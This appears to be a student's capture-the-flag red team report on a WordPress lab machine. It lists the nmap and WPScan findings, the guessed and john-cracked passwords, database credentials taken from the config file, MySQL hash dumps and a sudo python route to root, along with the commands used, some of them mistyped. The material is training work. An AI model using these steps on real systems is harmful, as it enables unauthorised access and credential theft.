 # Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Services
 
Nmap scan results for each machine reveal the below services and OS details:
 
```bash
$ nmap -sV -O 192.168.1.0/24
```
 
This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp – SSH – open  
    Allows ssh logins and brute force attack using dictionary.
 
  - Port 80/tcp – HTTP – open
    Allows for HTTP traffic and brute force attack using dictionary.
 
  - Port 111/tcp – rbcbind – open 
    Allows to see what services are running which help hackers in the reconnaissance step. RPC has several security vulnerabilities.
 
   - Port 139/tcp – netbios-ssn – open
     Allows for network file sharing and potentially for reverse shell attack via Metasploit. 
     
   - Port 445/tcp – netbios-ssn – open
     Allows for network file sharing and potentially for reverse shell attack via Metasploit. 
 
 
The following vulnerabilities were identified on target 1:

 
### WPScan
- WPScan was ran to enumerate version and users. 
- Wordpress is running version 3.7.8, which has many vulnerabilities: https://www.cvedetails.com/vulnerability-list/vendor_id-2337/product_id-4096/version_id-224460/Wordpress-Wordpress-3.7.8.html
- Two users were found: Michael and Steven.

### Brute Force Attack
 
- Michael password was guessed, and it was the same as his login, Michael. 
- Steven password was cracked using john the ripper after finding his has hash.
 
### Python Shell Commands
- After logged in as Steven, I used the python bash commands to gain root access. 

## Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

  - `flag1.txt`: {b9bbcb33e11b80be759}
     - **Exploit Used:**
         - Used ls to look at the html directory an inspected the files in it. Found the flag in the html directory.
         - Commands used: $ cd /var/www/html
	                        $ ls
	                        $ cat service.html
 
  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
     - **Exploit Used:**
         - Weak password policy
         - Michael’s password was guessed while trying to login to his account using ssh.
         - The flag was found using the locate command. Flag was found in yhe /var/www directory.
	       - Commmands used: $ ssh michael@192.168.1.110
	                         Password: Michael
                           $ locate flag
                           
 - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used:**
        - Looking for information that sysadmin forgot to remove. 
        - Found the password for the MySQL database in the file wp_config.html located in the directory /var/www/html/wordpress.
        - Logged into the MySQL database and found the hashes for Michael’s and Steve’s password in the worpress database in the wp_users table.
        - Found flag 3 in the table wp_posts 
        - Commands used: $ Mysql -u root -p
                         $ Show database;
                         $ Use wordpress;
                         $ Show tables;
                         $ Select * from wp_users;
                         $ select * from wp_posts where post_title=”flag3”;
        
- `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
   - **Exploit Used**
       - Python Shell command
       - Steven’s password was cracked using john the riper after creating a file called wp_hashes.txt with his hash in it.
       - Once logged in as Steven, I still could not gain root access, but found out with sudo -l that he could run commands on raven without password.
       - Python scrip was run to gain access and flag 4 was found.
       - Command used:  $ john wp_hashes.txt. The password is pink84.
                        $ sudo -l
                        $ sudo /usr/bin/python
                        >>> imprt os
                        >>> os.system ("sudo su root"|)
                        $ whoami
 





